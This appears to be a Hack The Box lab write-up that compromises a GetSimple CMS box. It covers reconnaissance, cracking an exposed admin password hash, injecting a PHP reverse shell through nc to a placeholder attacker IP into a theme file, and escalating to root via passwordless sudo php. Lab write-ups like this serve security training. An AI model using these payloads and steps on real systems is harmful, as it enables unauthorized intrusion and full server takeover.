 +++
title = "HTB-Init-test-skills"
date = "2025-02-16T09:12:30-06:00"
#dateFormat = "2006-01-02" # This value can be configured for per-post date formatting
author = "corrupter"
authors = ["corrupter"]
authorTwitter = "" #do not include @
cover = ""
tags = ["Pentesting", "Revshells"]
keywords = ["", ""]
description = ""
showFullContent = false
hideComments = true 
+++

# Module Getting Started: Knowledge check

We get an IP adress target `$TARGET` which we have to pwn.

First, we make a simple nmap scan to get open services, versions and ports:

```sh
nmap -sV --open -oA start-skills-init-recon $TARGET
```

We get two services:

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The second seems to be a web server, running a page as the port is 80, for http. We run
a scan with `whatweb`:

```sh
$ whatweb $TARGET
http://$TARGET [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[$TARGET]
```

We get not many info, so heading to the page with a browser, we see the server
uses GetSimple CMS. `searchsploit` gives us some interesting information for vulnerabilities:

```sh
$ searchsploit GetSimple
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Getsimple CMS 2.01 - 'changedata.php' Cross-Site Scripting                         | php/webapps/34789.html
Getsimple CMS 2.01 - 'components.php' Cross-Site Scripting                         | php/webapps/34041.txt
Getsimple CMS 2.01 - Local File Inclusion                                          | php/webapps/12517.txt
Getsimple CMS 2.01 - Multiple Vulnerabilities                                      | php/webapps/14338.html
Getsimple CMS 2.01 < 2.02 - Administrative Credentials Disclosure                  | php/webapps/15605.txt
Getsimple CMS 2.03 - 'upload-ajax.php' Arbitrary File Upload                       | php/webapps/35353.txt
Getsimple CMS 3.0 - 'set' Local File Inclusion                                     | php/webapps/35726.py
Getsimple CMS 3.1.2 - 'path' Local File Inclusion                                  | php/webapps/37587.txt
Getsimple CMS 3.2.1 - Arbitrary File Upload                                        | php/webapps/25405.txt
GetSimple CMS 3.3.1 - Cross-Site Scripting                                         | php/webapps/43888.txt
Getsimple CMS 3.3.1 - Persistent Cross-Site Scripting                              | php/webapps/32502.txt
Getsimple CMS 3.3.10 - Arbitrary File Upload                                       | php/webapps/40008.txt
GetSimple CMS 3.3.13 - Cross-Site Scripting                                        | php/webapps/44408.txt
GetSimple CMS 3.3.16 - Persistent Cross-Site Scripting                             | php/webapps/49726.py
GetSimple CMS 3.3.16 - Persistent Cross-Site Scripting (Authenticated)             | php/webapps/48850.txt
GetSimple CMS 3.3.4 - Information Disclosure                                       | php/webapps/49928.py
GetSimple CMS Custom JS 0.1 - Cross-Site Request Forgery                           | php/webapps/49816.py
Getsimple CMS Items Manager Plugin - 'PHP.php' Arbitrary File Upload               | php/webapps/37472.php
GetSimple CMS My SMTP Contact Plugin 1.1.1 - Cross-Site Request Forgery            | php/webapps/49774.py
GetSimple CMS My SMTP Contact Plugin 1.1.2 - Persistent Cross-Site Scripting       | php/webapps/49798.py
GetSimple CMS Plugin Multi User 1.8.2 - Cross-Site Request Forgery (Add Admin)     | php/webapps/48745.txt
GetSimple CMS v3.3.16 - Remote Code Execution (RCE)                                | php/webapps/51475.py
GetSimpleCMS - Unauthenticated Remote Code Execution (Metasploit)                  | php/remote/46880.rb
----------------------------------------------------------------------------------- ---------------------------------
```

Seems like we can upload or run arbitrary code. Meanwhile, `gobuster` gives us useful paths to
explore:

```sh
$ gobuster dir -u http://$TARGET -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://$TARGET
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/admin                (Status: 301) [Size: 314] [--> http://$TARGET/admin/]
/backups              (Status: 301) [Size: 316] [--> http://$TARGET/backups/]
/data                 (Status: 301) [Size: 313] [--> http://$TARGET/data/]
/index.php            (Status: 200) [Size: 5485]
/plugins              (Status: 301) [Size: 316] [--> http://$TARGET/plugins/]
/robots.txt           (Status: 200) [Size: 32]
/server-status        (Status: 403) [Size: 278]
/sitemap.xml          (Status: 200) [Size: 431]
/theme                (Status: 301) [Size: 314] [--> http://$TARGET/theme/]
Progress: 4734 / 4735 (99.98%)
===============================================================
Finished
===============================================================
```

The paths `/admin` and `/data` seem promising, so we explore them. The former gives us a
login page. Trying default passwords like `admin:admin` actually works, but alternatively
we could have searched the later directory and see that in the `/users` subdirectory resides
an `admin.xml` file with the following content:

```xml
<item>
<USR>admin</USR>
<NAME/>
<PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
<EMAIL>admin@gettingstarted.com</EMAIL>
<HTMLEDITOR>1</HTMLEDITOR>
<TIMEZONE/>
<LANG>en_US</LANG>
</item>
```

We see a hash, which `john` can easily crack and thus, obtaining the same credentials

```sh
$ john --wordlist=/usr/share/wordlists/rockyou.txt admin-xml-hash
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
admin            (?)
1g 0:00:00:00 DONE (2024-12-25 13:26) 50.00g/s 991200p/s 991200c/s 991200C/s alcala..LOVE1
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed.
```

When logging, we see many components in the admin pannel. Our interest is,
initially, the `upload.php` as `searchsploit` indicated a file upload
vulnerability, but the upload button seemed to be disabled. Searching around we
see that we can edit the theme code in the `themes.php` component. Using a
simple script like `<?php system('id'); ?>` works when reloading the page (note
that the edited theme must be enabled). We can then use a revshell like:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ATTCK_MACHINE_IP] [PORT] >/tmp/f") ?>
```

> [!IMPORTANT]
> You might save a copy of the original php template as this might disrupt the server.

Make sure to substitute `ATTCK_MACHINE_IP` by your machine IP through a VPN and
`PORT` by a choice port.

We listen with netcat at the port specified in the payload with `nc -lvnp PORT`
and see that, on page reload, the connection is stabilshed. There we can go to
the directory `/home/mrb3n` to get the `user.txt` flag.

To escalate privileges we explore binaries. Running `sudo -l` we see that a php
binary can be used with root privileges without password by all users:

```sh
$ sudo -l
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php

$ ls -l /usr/bin/php
lrwxrwxrwx 1 root root 21 Feb  9  2021 /usr/bin/php -> /etc/alternatives/php
```

A quick search in GTFObins tells us we can escalate to root as follows:

```sh
$ CMD="/bin/sh"
$ sudo php -r "system('$CMD');"
```

With this, we can get the last flag `root.txt` at the `/root/` directory.

We then successfully pwned the box.
